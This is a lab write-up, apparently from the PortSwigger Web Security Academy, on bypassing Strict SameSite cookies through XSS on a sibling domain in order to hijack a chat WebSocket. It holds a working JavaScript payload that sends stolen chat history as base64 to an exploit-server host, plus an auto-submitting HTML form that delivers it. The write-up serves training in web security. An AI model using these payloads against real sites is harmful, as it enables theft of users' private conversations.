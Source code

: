 # Strict Same-Site bypass via sibling domain XSS

A website has “live chat feature”.

No CSRF token is used when upgrading to WS, that means it’s vulnerable to CSRF. If the Same-Site restriction could be bypassed, it means it can be exploited to steal user chat history.

![image.png](Strict%20Same-Site%20bypass%20via%20sibling%20domain%20XSS%201e0021737a898035a117c4bee93fcafb/image.png)

When READY sent to websocket server, it responds with a hull history

![image.png](Strict%20Same-Site%20bypass%20via%20sibling%20domain%20XSS%201e0021737a898035a117c4bee93fcafb/image%201.png)

Request to chat.js file discloses a sibling domain in Access-Control-Allow-Origin header:

![image.png](Strict%20Same-Site%20bypass%20via%20sibling%20domain%20XSS%201e0021737a898035a117c4bee93fcafb/image%202.png)

When checking a sibling domain, it’s easy to notice it’s vulnerable to XSS:

![image.png](Strict%20Same-Site%20bypass%20via%20sibling%20domain%20XSS%201e0021737a898035a117c4bee93fcafb/image%203.png)

So the strategy is to use XSS to send a request to a Websocket server (the request will include a session of a target user, because the website are effectively Same-Site), and after receiving a response, send the base64-encoded data to our server and read the contents.

The payload:

```bash
let newWebSocket = new WebSocket("wss://0a4e00ec0326608a80b503c1005c008d.web-security-academy.net/chat");
         newWebSocket.onopen = function (evt) {             newWebSocket.send("READY");         }
         newWebSocket.onmessage = function (evt) {             var message = evt.data;             fetch("https://exploit-0a88000f0350607080d0021101450074.exploit-server.net/exploit?message=" +                 btoa(message)             )         }
```

To execute it, we must URL-encode and pass to the victim using XSS.

```bash
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://cms-0a4e00ec0326608a80b503c1005c008d.web-security-academy.net/login" method="POST">
      <input type="hidden" name="username" value="&lt;script&gt;let&#32;newWebSocket&#32;&#61;&#32;new&#32;WebSocket&#40;&quot;wss&#58;&#47;&#47;0a4e00ec0326608a80b503c1005c008d&#46;web&#45;security&#45;academy&#46;net&#47;chat&quot;&#41;&#59;&#13;&#10;&#13;&#10;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;newWebSocket&#46;onopen&#32;&#61;&#32;function&#32;&#40;evt&#41;&#32;&#123;&#13;&#10;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;newWebSocket&#46;send&#40;&quot;READY&quot;&#41;&#59;&#13;&#10;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#125;&#13;&#10;&#13;&#10;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;newWebSocket&#46;onmessage&#32;&#61;&#32;function&#32;&#40;evt&#41;&#32;&#123;&#13;&#10;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;var&#32;message&#32;&#61;&#32;evt&#46;data&#59;&#13;&#10;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;fetch&#40;&quot;https&#58;&#47;&#47;exploit&#45;0a88000f0350607080d0021101450074&#46;exploit&#45;server&#46;net&#47;exploit&#63;message&#61;&quot;&#32;&#43;&#32;&#13;&#10;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;btoa&#40;message&#41;&#13;&#10;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#41;&#13;&#10;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#125;&lt;&#47;script&gt;" />
      <input type="hidden" name="password" value="123" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

![image.png](Strict%20Same-Site%20bypass%20via%20sibling%20domain%20XSS%201e0021737a898035a117c4bee93fcafb/image%204.png)

![image.png](Strict%20Same-Site%20bypass%20via%20sibling%20domain%20XSS%201e0021737a898035a117c4bee93fcafb/image%205.png)